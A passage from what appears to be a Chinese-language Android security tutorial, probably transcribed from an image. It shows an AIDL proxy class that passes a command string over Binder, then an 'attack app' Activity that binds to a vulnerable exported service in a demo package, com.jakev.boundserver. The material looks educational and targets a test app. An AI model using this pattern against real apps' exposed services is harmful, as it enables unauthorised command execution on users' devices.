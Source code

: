 ```
    }
    public  String a(String cmd) throws RemoteException {
        // Server do not have to implement this method, just return null
        return null;
    }

    private static class Proxy implements a {
        private IBinder mRemote;
        Proxy(IBinder remote) {
            mRemote = remote;
        }

        @Override
        public IBinder asBinder() {
            return mRemote;
        }
        public String getInterfaceDescriptor() {
            return DESCRIPTOR;
        }

        @Override
        public String a(String cmd) throws RemoteException{
            String result = null;
            Parcel data = Parcel.obtain();
            Parcel reply = Parcel.obtain();
            try {
                data.writeInterfaceToken(DESCRIPTOR);
                data.writeString(cmd);
                mRemote.transact(1, data, reply, 0);
                reply.readException();
                result = reply.readString();
            }
            finally {
                reply.recycle();
                data.recycle();
            }

            return result;
        }
    }

}

```

最后，编写攻击app的Activity，在其中bind有漏洞的Service

```
mServiceConnection = new myServiceConnection();
Intent i = new Intent();
i.setClassName("com.jakev.boundserver", "com.jakev.boundserver.ITestService");
boolean ret = bindService(i, mServiceConnection, BIND_AUTO_CREATE);

```
